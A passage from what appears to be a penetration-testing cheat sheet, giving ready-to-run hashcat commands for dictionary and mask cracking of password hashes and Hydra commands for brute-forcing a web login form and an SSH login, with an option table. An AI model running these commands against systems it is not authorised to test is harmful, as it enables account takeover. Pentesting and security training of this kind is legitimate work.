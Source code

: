 Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status --optimized-kernel-enable B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt

hashcat -m 5600 -a 0 --session=cracking --force --status --optimized-kernel-enable hashes.txt --outfile hashcat_results.txt rockyou.txt
```

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from [/dict/rockyou.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

Brute force a hash with a specified placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status --optimized-kernel-enable 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

<p id="hydra"/>

### Hydra

Crack an HTTP POST web form login:

```fundamental
hydra -l admin -P rockyou.txt somesite.com http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!" -o hydra_results.txt
```

When cracking a web form login, you must specify `Login=Login:<expected_message>` to distinguish between a successful login and failed one. Each expected message can vary between web forms.

Keep in mind that the `username` and `password` request parameters can be named differently.

Crack a Secure Shell login:

```fundamental
hydra -L users.txt -P rockyou.txt 192.168.8.5 ssh -o hydra_results.txt
```

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from [/dict/rockyou.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

Also, check the one-time-password lists in [/dict/otp.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/dict).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |
| -P | Load several passwords from a file |
| -x | Password brute force generation (MIN:MAX:CHARSET), type "-x -h" to get help |
| -y | Disable use of symbols in bruteforce |
